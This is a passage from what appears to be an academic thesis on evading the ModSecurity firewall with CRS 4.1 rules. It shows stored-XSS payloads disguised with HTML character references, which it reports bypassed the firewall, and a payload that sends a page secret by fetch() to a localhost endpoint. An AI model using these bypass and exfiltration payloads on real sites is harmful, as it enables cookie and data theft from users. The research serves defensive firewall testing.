 After obscuring the payload with a single iteration of \acrshort{html} character reference substitution, the modified payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML character reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1.


\subsubsection{HTML Character References + JavaScript normal character escape}

\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to exploit a stored XSS vulnerability to exfiltrate secrets:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

A request containing this payload was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 based on 4 rule triggers:

